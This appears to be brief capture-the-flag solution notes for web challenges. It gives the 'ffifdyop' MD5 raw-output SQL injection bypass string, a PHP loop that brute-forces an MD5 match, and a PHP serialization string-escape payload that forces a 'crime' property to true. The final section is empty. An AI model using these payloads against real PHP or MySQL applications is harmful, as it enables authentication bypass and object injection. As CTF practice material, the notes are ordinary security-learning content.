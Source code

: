 https://blog.csdn.net/qq_45521281/article/details/105848249

md5:

```mysql
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

level2

a=2653531602&b=2427435592

```php
<?php
$a = '114514';
$b = 'xxxxxxx';
for($i=1000000;$i<10000000;$i++) {
    $b=$i;
    $c = md5($a.$b);
    if ($c === '3e41f780146b6c246cd49dd296a3da28') {
        echo 'ok' . $b;
    }
}
```

Build[CTF.com=1145146803531

https://www.cnblogs.com/meng-han/p/16804708.html

## Why_so_serials?

```php
<?php
class Gotham{
    public $Bruce;
    public $Wayne;
    public $crime=true;
    public function __construct($Bruce,$Wayne){
        $this->Bruce = $Bruce;
        $this->Wayne = $Wayne;
    }
}
echo strlen('";s:5:"crime";b:1;}');
echo str_repeat('joker',19);

$city = new Gotham("Batman",'joker";s:5:"crime";b:1;}');
echo serialize($city);
```

jokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjokerjoker";s:5:"crime";b:1;}

## sub
